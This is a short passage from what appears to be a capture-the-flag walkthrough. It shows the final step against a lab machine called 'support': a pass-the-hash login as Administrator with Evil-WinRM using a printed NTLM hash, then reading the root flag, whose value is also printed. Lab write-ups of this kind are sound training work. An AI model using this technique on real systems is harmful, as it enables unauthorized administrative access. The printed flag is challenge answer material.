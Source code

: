 Lastly pass-the-hash with Evil-WinRM and grab the root flag.

```
➜  support evil-winrm -i 10.129.146.169 -u Administrator -H bb06cbc02b39abeddd1335bc30b19e26
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
577a161395a7c12b0a12570153ef2cdd
```

